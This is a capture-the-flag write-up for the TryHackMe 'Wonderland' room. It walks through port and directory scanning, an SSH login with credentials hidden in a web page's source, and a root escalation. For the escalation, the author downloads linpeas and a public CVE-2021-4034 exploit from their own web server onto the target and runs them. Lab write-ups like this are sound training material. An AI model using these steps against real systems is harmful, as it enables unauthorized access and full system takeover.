

# TryHackMe Writeup - Wonderland

This is a writeup for the TryHackMe machine "Wonderland".
Link: <https://tryhackme.com/room/wonderland>

This machine does not offer many information in advance. So I began with my basic reconnaissance routine after adding

```
[Machine IP] machine.thm
```

to my "/etc/hosts" file with the command

```
sudo nano /etc/hosts
```

## Task 1: Reconnaissance

I initiated a nmap scan over all ports. I also used a nmap script which discovers vulnerabilities. I safed the output in a log file on my desktop:

```
sudo nmap -p- -A -Pn --script vuln machine.thm > ./Desktop/nmap.log
```

The nmap scan took a while and gave me the following output:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /r/: Potentially interesting folder
|_  /img/: Potentially interesting folder
```

I decided to visit the webpage. I used the Bursuit browser to be able to have a look on the requests if it is necessary.

When accessing the webpage, the following screen appears:



While inspecting the image, I discovered that the image is stored in a "/img" directory which might be accessible:


This was also found by the nmap scan before.

I also started an enumeration of the website to detect possible subpages with gobuster:

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://machine.thm
```

Gobuster found the following subpages:

```
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
/r                    (Status: 301) [Size: 0] [--> r/]
```

The "/img" directory only contained some images. I also tried enumeration on the "/img" directory but no subpages were discovered.

So I checked the "/r" directory and found the following:


It seems like I am on the right track. I also tried enumeration on this subpage:

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://machine.thm/r  
```

It found a "/a" subpage:

```
/a                    (Status: 301) [Size: 0] [--> a/]
/index.html           (Status: 301) [Size: 0] [--> ./]
```

I had an idea where this was leading and made an educated guess and tried to access the page "machine.thml/r/a/b/b/i/t". It worked and this page appeared:


I once again inspected the source code of the webpage and discovered the following:


In an invisible paragraph there is a username and password combination stored. Maybe this is for ssh access to the server?

## Task 2: Get access

I tried to login via ssh with the previously discovered credentials:

```
ssh alice@machine.thm
```

It worked. I am logged in as alice to wonderland. 


I tried to access the root.txt file but the access is denied. So I had to dig deeper to become root.

## Task 3: Privilege Escalation

I already have a folder with some useful scripts which contains the "linpeas.sh". The "linpeas.sh" file can be downloaded here: <https://github.com/carlospolop/PEASS-ng/releases/tag/20231029-83b8fbe1>

I then started a simple webserver in this folder:

```
python3 -m http.server
```

On the wonderland machine I then downloaded the linpeas.sh file with

```
wget [MY IP]:8000/linpeas.sh
```

gave it execution permissions with

```
chmod u+x linpeas.sh
```

and executed it with

```
./linpeas.sh
```

The "linpeas.sh" script is a linux privilege escalation script which searches for possible ways to escalate the current user privileges to root privileges. The script tells us that the host is possibly vulnerable to CVE-2021-4034


I had a quick research and found the following exploit which I downloaded and provided on my webserver as well: <https://github.com/joeammond/CVE-2021-4034.git>

I then downloaded the python exploit file to the wonderland machine with 

```
wget [MY IP]:8000/CVE-2021-4034.py
```

gave it execution permissions with

```
chmod u+x CVE-2021-4034.py
```

and executed it with

```
./CVE-2021-4034.py
```

which opened a shell.

With 

```
whoami
```

I got the reply "root". So we got a root shell. 

## Task 4: Capture the flags

Now we should be able to retrieve all flags easily be searching for them:

The first flag is called user.txt and I searched for it with the call

```
sudo find user.txt / | grep user.txt
```

The flag is located in "/root/user.txt".

I already found the second flag and it is located in the home directory of alice.

In my opinion this is a nice little CTF machine but it is very easy to solve. So the TryHackMe score "medium" is not really correct and it should be easy instead.